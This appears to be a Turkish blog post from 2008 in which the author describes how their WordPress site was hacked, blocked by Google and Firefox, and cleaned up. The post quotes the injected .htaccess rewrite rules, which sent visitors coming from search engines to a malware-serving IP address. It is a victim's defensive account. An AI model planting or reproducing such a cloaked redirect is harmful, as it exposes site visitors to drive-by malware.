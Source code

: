 Title: Hacklendik
Date: 2008-11-18 22:15
Category: Haberler
Tags: apache, ftp, google, hack, htaccess, malware, WordPress

Bu gün siteme girmeye çalışan Firefox ve Google üzerinden girmeye
çalışanların karşılaştığı bir sorun sitem zararlı içerik olduğu için
engellenmiş. Aslında tüm arama sitelerinden gelen yönlendirmeler de aynı
sorun varmış. En sonunda anladım. Uzun aramalar sonunda
[http://wordpress.org/support/topic/217700][] Bu linkdeki bilgiler
doğrultusunda htcaacces içine girilen yönlendirme kodu nedeni ile
yaşamışım bu sorunları. Ayrıca yazılarımın için yerleştirilmiş bir
iframe reklam linkeleri de var tabi. Yukarıdaki linkdeki işlemleri tek
tek yaptım - htaccess dosyasını sildim. - ftp şifremi değiştirdim -
hostingh firmamdan sitemin bulnduğu klasörü bir virüs, malware
taramasından geçirmelerini istedim. Sorunun ana nedeni htaccess
dosyasında ki kodlar olarak görünüyor. Başta uzunca bir boşluktan sonra
aşağıdaki kod yazıyordu. RewriteEngine On RewriteCond %{HTTP_REFERER}
.*google.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*aol.*$ [NC,OR]
RewriteCond %{HTTP_REFERER} .*msn.*$ [NC,OR] RewriteCond
%{HTTP_REFERER} .*altavista.*$ [NC,OR] RewriteCond %{HTTP_REFERER}
.*ask.*$ [NC,OR] RewriteCond %{HTTP_REFERER} .*yahoo.*$ [NC]
RewriteRule .* http://89.28.13.202/in.html?s=ix [R,L] Bu arada cute
ftp'de htaccess görüntülemeyide öğrendik.
[http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html][]
Muhtemelen sorun haftasonu benim kalıcı bağlantılarım gittinde oldu ve
ben bunu anlamadım. Asıl sorunun ise sitemi yahoo.com'da aradığımda
karşılaştım, linke tıkladığımda bilgisayarıma zararlı yazılım eklemeye
çalıştı. Zaten yukarıdaki kodda da bu açıkça görülüyor, siteme direk
girişlerde değilde arama sonuçlarından gelince yüklenmeye çalışıyor. Ama
hesap edemedikleri şey google'un bunu görüp sitemi kapatması. Google'un
ve Firefox'un sitemi engellemeleri daha bitmedi. Google Web Yöneticis
aracındaki incelemeye alın işaret kutunu işaretledim ve
StopBadware.org'daki formuda doldurdum. Neyse hayırlısı bakalım. Bu
durumu gören ve beni uyaran tüm arkadaşlara teşekkürler. Umarım bu tip
sorunlarla bi daha karşılaşmayız.

## Ek olarak

Ayrıca http://www.fatihhayrioglu.com/?ref=siteAdi gibi linkler var.
Bunlarıda robots.txt User-agent: * Disallow: /*ref=* Disallow:
/*?ref= kodlarını ekleyerek düzelttim. İşin ilginci bu linkleri
google'un arama aracı nasıl buluyor.

</p>

  [http://wordpress.org/support/topic/217700]: http://wordpress.org/support/topic/217700
  [http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html]: http://blog.youontop.com/server-issues/view-htaccess-hidden-files-in-cuteftp-38.html
